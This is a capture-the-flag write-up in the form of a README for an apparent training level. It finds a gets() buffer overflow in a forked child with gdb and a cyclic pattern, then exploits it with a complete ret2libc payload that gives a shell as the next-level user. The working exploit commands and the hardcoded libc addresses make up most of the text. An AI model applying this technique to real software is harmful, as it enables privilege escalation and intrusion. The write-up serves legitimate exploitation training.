 ## Project README: Finding flag04
We now have a programe that his creating a child.
the child will use the gets function into a buffer of size 128
and the parents will wait for the child and will puts puts("child is exiting...");

### Analysis
So we understand that will need to make the child segfautl by writing more that 128 char. The difficulty is that if we do that they will not print at wich patern he did segfault and will let stdin open. To quit the program we will have to ctrl-c


### Progress
**We can use gdb to track the son :**
(gdb) set follow-fork-mode child
**then pass the patern**
(gdb) run <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/users/level04/level04 <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
[New process 1754]
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1754]
0x41326641 in ?? ()
**So the offset is at lengh 156 so we can build the payload by doing a retto lib c**
*address system 0xf7e6aed0  = \xd0\xae\xe6\xf7*
*address exit 0xf7e5eb70 = \x70\xeb\xe5\xf7*
*address /bin/sh 0xf7f897ec = \xec\x97\xf8\xf7*
``Bash
(python -c'print("\x90" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level04
Give me some shellcode, k
whoami
level05
```
et voila 

